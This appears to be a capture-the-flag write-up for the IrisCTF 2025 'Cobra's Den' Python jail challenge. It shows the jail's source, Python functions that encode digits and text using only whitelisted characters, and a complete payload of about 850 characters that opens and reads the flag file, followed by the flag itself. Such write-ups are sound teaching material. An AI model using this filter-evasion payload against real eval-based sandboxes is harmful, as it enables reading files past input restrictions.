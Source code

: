 +++
title = 'Iris Ctf 2025 Misc Cobras Den'
date = 2025-01-06T00:08:48-05:00
draft = false
+++

Cobra's Den was a python jail escape challenge for IrisCTF 2025. What better way to start the new year than with a pyjail?

Lets take a look at the code
```python
# flag stored at 'flag' in current dir
import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")

```

The whitelist is quite restrictive, we can only use the characters from `<ph[(cobras.den)]+~` and we have to stay under 1115 characters. We are told the flag is located in flag at the current directory and give the characters we have we can call `open()` and `read()`, but encoding flag will be a challenge. Let's see how we can use the characters we are given to encode `flag`

## Getting characters without characters

First, we can do comparisons on empty tuples which gets us `True` and `False`. In python, `True` is equal to 1 and `False` is equal to 0. We can use these to encode numbers and then use `chr()` to encode flag. Unfortunetly we cannot use the equals sign to do:
```python
>>> ()==()
True
```
But we can use `>` which lets us do:
```python
>>> ()>()
False
```
We can use `~` the bitwise NOT operator to get -1
```python
>>> ~(()>())
-1
```
And since we also can use + we can add -1 to itself to get -2 and bitwise NOT to get 1
```python
>>> ~(~(()>())+~(()>()))
1
```
Unfortunetly if we try to build out the digits 1-9 this way, we run into the character limit as the strings get very lengthy. Looking at the built in functions we could use, I saw abs(), and using that we can get 1 by doing:
```python
>>> abs(~(()<()))
1
```

Now we can build out the numbers 1 - 9:
```python
def encode_digit(number: int):
    if number == 0:
        return """()<()"""
    if number == 1:
        return """abs(~(()<()))""" 
    if number == 2:
        return """abs(~(()<())+~(()<()))"""
    if number == 3:
        return """abs(~(()<())+~(()<())+~(()<()))"""
    if number == 4:
        return """abs(~(()<())<<abs(~(()<())+~(()<())))"""
    if number == 5:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<()))"""
    if number == 6:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))"""
    if number == 7:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<())"""
    if number == 8:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))"""
    if number == 9:
        return """abs((~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<()))"""
```

From there we can encode any number:
```python
def encode_number(number: int):
    if number < 10:
        return encode_digit(number)
    shifts = []
    current = number
    shift_val = 0
    while current > 0:
        if current & 1:  
            shifts.append(shift_val)
        current >>= 1  
        shift_val += 1
    txt = ""
    for shift in shifts:
        if txt:
            txt += "+"
        if shift == 0:
            txt += encode_number(1)
        else:
            txt += "(" + encode_number(1) + "<<" + encode_number(shift) + ")"
    return txt
```

And then any text:
```python
def encode_text(text: str):
    result = ""
    for ch in map(ord, text):
        result += "chr(" + encode_number(ch) + ")+"
    return result
```
Gettin us our final payload of just over 850 chars, well under the limit

```python
open(chr((abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr((abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))).read()
```


`irisctf{pyth0n_has_s(+([]<[]))me_whacky_sh(+([]<[[]]))t}`